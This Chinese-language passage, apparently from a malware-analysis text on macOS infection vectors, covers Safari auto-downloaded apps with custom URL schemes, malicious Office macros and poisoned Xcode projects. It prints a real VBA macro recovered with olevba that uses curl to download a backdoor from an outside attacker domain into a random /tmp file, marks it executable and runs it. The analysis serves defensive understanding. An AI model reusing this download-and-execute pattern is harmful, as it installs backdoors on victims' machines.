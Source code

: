   
页面加载时(1)，该JavaScript代码执行程序化点击(2)，迫使Safari自动下载含有恶意应用（该应用支持自定义URL协议）的ZIP压缩包。下载完成后，Safari自动解压压缩包，触发自定义URL协议的注册流程。随后利用location.replace API发起对新注册协议(3)的请求，从而激活恶意应用。  
  
虽然Safari等浏览器会弹窗警示网页正试图启动应用，且macOS在应用实际启动时可能生成二次警告，但由于攻击者可将应用命名为"Final_Presentation"等看似无害的名称，普通用户很可能受骗点击"允许"和"打开"，最终导致感染。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibRDoZl5cpQsiaDjibhUAoq1NHWdLibe8ibnRscWKl8J1tAwhic5IicGlH4qhncialqQQ2RRafsq4DqmeYrQw/640?wx_fmt=png&from=appmsg "")  
## 1.9 Office 宏代码（Office Macros）  
  
尽管技术相对简单，但包含恶意Microsoft Office宏的文档已成为感染Mac用户的流行手段。宏本质上是可直接嵌入Office文档的命令集。用户可能出于自动化常规任务等正当理由在文档中嵌入宏，但恶意软件作者也可滥用此功能向无害文件注入恶意代码。  
  
由于宏是微软的专利技术，Apple的生产力工具套件（包括Pages和Notes）并不支持此功能。但随着macOS在企业环境中的持续渗透，Microsoft Office套件在macOS上的普及度也急剧上升。黑客与恶意软件作者敏锐捕捉到这一趋势，导致针对Apple用户的宏攻击数量激增。例如，Lazarus APT组织在2019年就曾发起针对Mac用户的宏攻击。  
  
要使基于宏的攻击生效，用户必须在Microsoft Office应用程序（如Word）中打开受感染文档，并点击"启用宏"提示。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibRDoZl5cpQsiaDjibhUAoq1NHGLUBUjgGdRTlCRLwQ490kp4W53c5IdKU2icu1hqAmuXHPIduUiaPeh9A/640?wx_fmt=png&from=appmsg "")  
  
宏代码通常用VBA（Visual Basic for Applications）编写，通过调用AutoOpen和Document_Open等Microsoft API确保恶意代码在文档打开且用户启用宏后自动执行。  
  
使用开源工具olevba可提取嵌入的宏代码。例如下面这段在针对韩国用户的恶意Word文档中发现的宏代码：  

```
% olevba -c &#34;샘플_기술사업계획서(벤처기업평가용.doc&#34;
Sub AutoOpen()
 ...
 #If Mac Then                                      (1)
 sur = &#34;https://nzssdm.com/assets/mt.dat&#34;          (2)
 spath = &#34;/tmp/&#34;: i = 0                            (3)
 Do
 spath = spath & Chr(Int(Rnd * 26) + 97): i = i + 1
 Loop Until i > 12
 res = system(&#34;curl -o &#34; & spath & &#34; &#34; & sur)       (4)
 res = system(&#34;chmod +x &#34; & spath)
 res = popen(spath, &#34;r&#34;)                            (5)
```

  
提取的宏代码在 #If Mac Then 代码块中包含专为Mac设计的逻辑(1)。该代码首先进行初始化操作：设置包含远程URL的变量(2)，并在/tmp目录动态构建随机路径(3)。随后使用curl将远程资源（mt.dat）下载到随机生成的本地路径(4)。下载完成后，调用chmod添加可执行权限并通过popen API执行该文件(5)。此下载项实为持久性macOS后门。  
  
自Office 2016起，macOS版Microsoft Office应用程序便在限制性沙箱中运行，旨在遏制恶意代码的影响。但安全研究人员仍发现多例简单的沙箱逃逸案例。若想深入了解基于宏的攻击及沙箱逃逸如何成为macOS感染途径，请参阅演讲《  
Documents of Doom: Infecting macOS via Office Macros  
》。  
## 1.10 Xcode工程污染（Xcode Projects）  
  
攻击者可以通过受感染的Xcode项目感染macOS开发者，Xcode是开发Apple设备软件的标准IDE。这种感染途径具有高度针对性，XCSSET恶意软件便是典型案例。  
  
当下载并构建受XCSSET污染的Xcode项目时，恶意代码将自动运行，导致开发者的Mac设备被感染。检查受XCSSET感染的Xcode项目，可见其工程文件project.pbxproj中包含执行隐藏目录/.xcassets/下Assets.xcassets脚本的指令。  
  